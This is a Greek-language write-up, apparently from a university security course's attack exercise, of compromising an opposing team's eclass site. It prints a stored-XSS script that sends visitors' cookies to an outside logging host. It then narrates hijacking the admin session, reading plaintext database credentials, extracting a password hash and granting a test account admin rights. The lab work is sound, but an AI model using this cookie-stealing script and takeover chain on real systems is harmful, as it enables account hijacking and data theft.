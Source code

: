 ### Attack
Βρέθηκαν ευπάθειες απο XSS σε πολλά σημεία του αντίπαλου site.

Το κύριο XSS attack έγινε μέσω της περιοχής συζητήσεων.
Στο "Περιοχες Συζητήσεων->Γενικές συζητήσεις" ανοίξαμε "Νέο θέμα"
Έκει μέσω του εργαλείου "Μεταβασή σε κώδικα html" στο σώμα μηνύματος
βάλαμε το script-ακι :

```
<script>
var xhr = new XMLHttpRequest();
xhr.open('GET',
'http://securenet.puppies.chatzi.org/cookie_stealer_writer.php/?cookie=' +
encodeURIComponent(document.cookie));
xhr.send();
</script>
```

Στο http://securenet.puppies.chatzi.org/cookie_stealer_writer.php εχουμε
φτιάξει ενα php script που παίρνει το cookie και το γράφει σε ένα αρχείο
το cookie.txt.

Ύστερα στείλαμε μήνυμα στον admin να διαβάσει το θέμα στις περιοχές
συζητήσεων.
Στην συγκεκριμένη περίπτωση είναι το "Serious question for eclass
enhanced" που περιέχει το XSS attack.

Αφου πήραμε το cookie του αντιπαλου με inspect->console και
document.cookie = "το cookie που κλέψαμε" συνδεθήκαμε ως διαχειριστής.

Μέσω του
http://hackmelikeyoudo.csec.chatzi.org/modules/admin/eclassconf.php
βρήκαμε τον κωδικό της βάσης δεδομένων και το username.
Ο κωδικός είναι Pf7xhe4jM7.

Έχοντας κωδικό ΒΔ συνδεθήκαμε στο
http://hackmelikeyoudo.csec.chatzi.org/modules/admin/mysql/
username: root
password: Pf7xhe4jM7

Απο την βάση δεδομένων στον πίνακα eclass.user πήραμε τον hashed κώδικο
του admin ο οποιος είναι ο 0350dda90d4d6840b442c0bef46f7873

Ύστερα δώσαμε πρόσβαση ως διαχειριστή στον test user μας κάνοντας insert
του user_id του στον πίνακα eclass.admin.

username: test
password: password.

Θα αλλάζαμε και τον κωδικό του drunkadmin μέσω της σελίδας:
http://hackmelikeyoudo.csec.chatzi.org/modules/admin/password.php
αλλα κάποιο bug στον κώδικα του αντίπαλου site δεν ενημερώνει τον κωδικό
στην βάση.

Ωστόσο ο κωδικός του μπορεί να αλλάξει απευθείας απο την ΒΔ αφού έχουμε
πρόσβαση.
